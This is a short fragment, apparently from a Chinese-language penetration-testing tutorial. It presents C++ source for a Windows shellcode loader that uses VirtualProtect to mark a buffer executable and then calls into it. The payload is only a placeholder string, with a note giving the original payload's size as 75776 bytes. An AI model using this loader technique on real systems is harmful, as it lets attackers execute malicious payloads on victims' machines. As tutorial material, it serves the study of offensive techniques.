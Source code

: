 ![](media/bae881deb4bd31f0a9bae8e76b42317f.jpg)

### 源码如下：
```cpp
# include <windows.h>
int main(void)
{
char *shellcode = (char *)"Micropoor_shellcode"; 

DWORD Micropoor_shellcode;
BOOL ret = VirtualProtect(shellcode, strlen(shellcode),
PAGE_EXECUTE_READWRITE, &Micropoor_shellcode);
if (!ret) {
return EXIT_FAILURE;
}
((void(*)(void))shellcode)();
return EXIT_SUCCESS;
}
```

**原始shellcode_payload大小如下：**
75776字节
